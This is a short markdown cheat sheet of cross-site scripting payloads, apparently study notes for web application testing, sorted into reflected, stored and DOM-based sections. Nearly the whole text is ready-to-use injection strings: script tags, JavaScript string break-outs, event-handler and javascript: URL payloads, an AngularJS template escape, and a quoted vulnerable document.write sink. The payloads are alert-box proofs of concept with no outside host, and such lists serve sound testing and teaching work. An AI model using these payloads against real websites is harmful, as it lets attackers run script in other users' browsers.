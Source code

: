 # **<a name="webapp">Web Application table of Contents</a>**
* [XSS](#xss)



#**<a name="xss">XSS</a>**

## Reflected 
`GET /?search=<script>alert(1)</script> HTTP/1.1`

### escape script and backslash

`</script><img src=1 onerror=alert(document.domain)>`

`</script><script>alert(1)</script>`

### Brak out of javascript string

`'-alert(document.domain)-'`

`'+alert(document.domain)+'`

`';alert(document.domain)//`

`http://foo?&apos;-alert(1)-&apos;`

`${alert(document.domain)}`

`javascript:"/*'/*'/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>`


## Stored

Enter the following into the comment box

`<script>alert(1)</script>`

`"onmouseover="alert(1)`

Inserted in GET/POST request

`<a id="author" href="javascript:alert(document.domain)">test</a>`

## DOM XSS

If you search 5333 in search bar

in javascript function calls 

                        function trackSearch(query) 
                        {document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');}
                        var query = (new URLSearchParams(window.location.search)).get('search');
                        if(query){trackSearch(query);}
                    
                        <img src="/resources/images/tracker.gif?searchTerms=5333">
                        
                        
search for 

` "><svg onload=alert(1)>`

this will break out new paramiter in javascript

 Document sink
 
 `name=<img+src+onerror=alert(1)>`
 
 Location sink
 
 `redir=javascript:alert(1)`
 
 `&storeId="></select><img+src%3d1+onerror%3dalert(1)>`
 
  Execution sink eval call error
  
  `index=alert(1)`
  
  angular js sink
  
  `{{$on.constructor('alert(1)')()}}`
 
 
